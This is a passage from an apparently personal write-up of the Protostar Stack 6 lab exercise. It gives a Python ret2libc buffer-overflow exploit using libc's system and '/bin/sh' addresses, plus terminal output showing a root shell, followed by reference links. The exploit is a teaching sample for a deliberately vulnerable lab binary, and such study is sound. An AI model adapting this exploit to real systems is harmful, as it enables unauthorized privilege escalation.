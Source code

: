 Normal ways wont work here. We need to make our own shellcode to break this.
exploit struct6.py
```py
#!/usr/bin/python
import struct

### EIP Offset
padding = "A" * 80
## padding+= "BBBBCCCCDD" 

### libc system
system = struct.pack("I", 0xb7ecffb0)

### Return Address After system
ret = "\x90" * 4

### libc /bin/sh 
shell = struct.pack("I", 0xb7e97000 + 0x11f3bf)
print padding + system + ret + shell
```


output

```bash
user@protostar:/tmp$ (python stack6.py;cat)| /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA��췐����c��
whoami
root

```
[Reference:Exploit Exercise | Protostar | Stack 6](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6)


## References: Thank you Guys :)  

- [Reference: Exploit-Exercises Protostar Stack 5](https://medium.com/@coturnix97/exploit-exercises-protostar-stack-5-963731ff4b71)
- [Reference: Practical Reverse Engineering Tutorials Part 2: Protostar Stack4](https://shantanugoel.com/2017/12/04/practical-reverse-engineering-tutorial-2-protostar-stack4/)
- [References:Exploit Exercise](https://exploit-exercises.lains.space/protostar/stack4/)
- [Reference: Executable and Linkable Format 101 - Part 1 Sections and Segments](https://www.intezer.com/blog/research/executable-linkable-format-101-part1-sections-segments/)
- [Reference:Hex Calculator](https://www.calculator.net/hex-calculator.html?number1=bffff7ac&c2op=-&number2=bffff760&calctype=op&x=52&y=13)
- [Reference:GDB find command error “warning: Unable to access x bytes of target memory at y, halting search”](https://stackoverflow.com/questions/34819167/gdb-find-command-error-warning-unable-to-access-x-bytes-of-target-memory-at-y)

